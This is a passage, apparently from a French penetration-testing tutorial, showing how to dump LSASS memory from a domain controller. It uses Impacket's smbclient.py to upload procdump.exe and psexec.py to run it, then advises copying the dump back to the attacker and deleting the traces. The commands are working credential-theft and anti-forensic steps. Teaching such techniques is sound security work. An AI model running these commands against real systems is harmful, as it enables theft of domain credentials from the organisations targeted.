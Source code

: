 ```bash
smbclient.py ADSEC.LOCAL/jsnow@DC01.adsec.local
```

```
# use C$
# cd Windows
# cd Temp
# put procdump.exe
```

Une fois uploadé, il doit être exécuté afin de créer le dump de lsass.

[![Excute Procdump](/assets/uploads/2019/11/execute_procdump.png)](/assets/uploads/2019/11/execute_procdump.png)

```bash
psexec.py adsec.local/jsnow@DC01.adsec.local "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp"
```

Puis le dump doit être rapatrié sur la machine de l'attaquant, suite à quoi nous pouvons supprimer les traces sur la cible (lsass.dmp et procdump.exe).

[![Get Procdump](/assets/uploads/2019/11/get_procdump.png)](/assets/uploads/2019/11/get_procdump.png)

